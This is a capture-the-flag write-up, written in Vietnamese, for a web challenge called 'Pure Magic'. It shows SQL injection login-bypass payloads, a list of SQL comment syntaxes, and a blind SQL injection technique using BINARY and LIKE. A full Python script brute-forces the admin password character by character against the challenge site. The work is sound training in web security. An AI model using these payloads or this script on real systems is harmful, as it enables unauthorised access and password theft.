 ## Pure Magic ([Link](https://cryptixctf.com/web3))

- Lại là 1 bài sql, tuy nhiên không phải đơn giản như bài đầu nhưng cũng không khó

- OK, bây giờ thử vài payload xem có cái nào hoạt động không

- Sau 1 hồi thử thì mình thấy có payload này hoạt động: `admin' OR '1' = '1'-- -`

- Ký tự `-- -` dùng để *comment* tức là toàn bộ *query* phía sau sẽ trở thành *comment* hết, chúng sẽ không được *server* đọc và thực thi

- 1 vài loại *comment* mình thường dùng:

  - `--`
  - `#`
  - `-- -`
  - `\* *\`

- Vấn đề là khi bypass qua sql của đề thì chả có gì cả ngoài vài dòng *troll*, vậy là *password* không thể dump trực tiếp tự *database*, ít nhất là mình nghĩ là vậy

- Bây giờ mình sử dụng kỹ thuật *blind sql* để dò ra *password* của đề

- Mình sẽ viết 1 *tool* nhỏ đề dò ra *password* của đề, mình sẽ không giải thích *tool*, tuy nhiên mình sẽ nói qua *payload* mình sử dụng để dò *password*

- Payload: `admin' OR BINARY password LIKE 'B%'-- -`

- Đoạn *LIKE 'B%'* dùng để xác thực xem *password* của nó có bắt đầu bằng chữ *B* hay không. Ký tự *%* dùng để đại diện cho tất cả các ký tự tiếp theo. Nếu đúng là bắt đầu bằng chữ *B* thì ta sẽ có 1 mệnh đề đúng. Vậy câu query sẽ hoạt động, *server* tiếp tục xuất ra đoạn troll kia. Nếu sai, thì *server* sẽ hiện thị dòng *Please just stop guessing.* Còn *BINARY* dùng để phân biệt chữ hoa và chữ thường

- Cứ như vậy, nếu đúng ta sẽ thêm ký tự đó vào *listpass* lưu sẵn, sai thì bỏ qua

- Ngoài dùng *LIKE* thì còn rất nhiều hàm khác có thể dùng như *SUBSTRING*, ...

- Còn đây là tool của mình

  ```python
  import requests
  from string import *
  import re, sys
  
  char = ascii_lowercase + ascii_uppercase + digits + '_'
  
  url = 'https://cryptixctf.com/web3/login.php'
  
  listpass = ''
  
  no = []
  
  flag = 0
  
  while True:
  	for x in char:
  
  		print('trying with: ', listpass+x)
  
  		data = {
  			"pwd" : "admin' OR BINARY password LIKE '"+listpass+x+"%'-- -"
  		}
  
  		response = requests.post(url, data = data)
  
  		fin = re.findall('Please just stop guessing.', response.text)
  
  		if fin == no:
  			listpass += x
  			flag = 0
  			break
  		else:
  			flag += 1
  		if flag == 63:
  			print('\n\nSuccess with password: ', listpass)
  			sys.exit()
  
  
  ```
 - Chậc, chạy mãi mới ra flag, máy cùi gh
 
 ![flag](Selection_001.png)

  
